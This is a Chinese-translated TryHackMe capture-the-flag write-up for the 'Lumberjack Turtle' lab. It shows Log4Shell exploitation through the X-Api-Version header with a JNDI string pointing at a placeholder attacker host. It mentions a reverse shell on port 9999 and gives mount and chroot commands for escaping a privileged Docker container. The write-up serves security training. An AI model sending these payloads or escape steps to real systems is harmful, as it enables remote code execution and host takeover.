









# 伐木工人海龟——报道

> 原文：<https://infosecwriteups.com/lumberjack-turtle-writeup-29b647e9b694?source=collection_archive---------0----------------------->

**难度**:中等房间
**描述**:没有原木，就没有犯罪……伐木工人这么说。

嘿，伙计们，这是 TryHackme 网站关于伐木工海龟房间的报道。

# 列举

# Nmap

## 网站(端口 80)

访问任何随机不存在的页面(`/test`)都会抛出 404 状态码这个错误。



访问`/error`给错误信息中的`status=999`500 状态码。



运行递归目录破坏，我们有`/~logs/log4j`目录。



响应头`X-THM-HINT: CVE-2021-44228 against X-Api-Version`提示我们必须使用`X-Api-Version`头。

此外，CVE-2021–44228 是影响 Apache 的 Java 日志库 Log4j 的 Log4Shell 漏洞，使得攻击者能够在受影响的系统上远程运行命令。它得到了 10.0 的 CVSS 评分，这是可能的最高分。



# 剥削

尝试向服务器发送一个带有`X-Api-Version: ${jndi:ldap://ATTACKER-IP:3333}`的请求。另外，在端口 3333 上运行一个 netcat 监听器。netcat 监听器将监听来自受害机器的连接:



这样，我们可以确认 web 应用程序确实容易受到攻击。

接下来，`git clone`github 的 [JNDI 漏洞工具包](https://github.com/pimps/JNDI-Exploit-Kit)。遵循 github repo 中 README.md 文件上的说明。现在，将目录更改为 JNDI 漏洞利用工具包目录，并运行漏洞利用:

base64 有效负载是一个简单的反向 shell，它在端口 9999 连接回我们的攻击者机器。



从上面显示的输出中获取漏洞 URL 并发送请求。

确保在端口 9999 上运行一个监听器。

# 权限提升

我们得到一个壳作为根。但它实际上是在 docker 容器中。



flag1 位于`/opt/.flag1`运行 linpeas，我们可以看到特权模式被启用。它允许我们从 docker 容器中访问主机文件系统。我们只需安装磁盘。


用`fdisk -l`检查系统中的磁盘



主机在`/dev/xvda1`使用磁盘。在`/mnt/host`处创建一个文件夹并安装驱动器:

```
mount /dev/xvda1 /mnt/host
```

可以从`/mnt/host`访问主机文件系统。使用`chroot /mnt/host`改变根文件系统。创建一个 SSH 密钥对，并使用`id_rsa`文件获得一个 SSH 会话:

登录，你会看到一个目录`/root/...`。根标志在此文件夹中。



黑客快乐！

*原载于【https://github.com】[](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)**。***

# *🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)*

*[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)*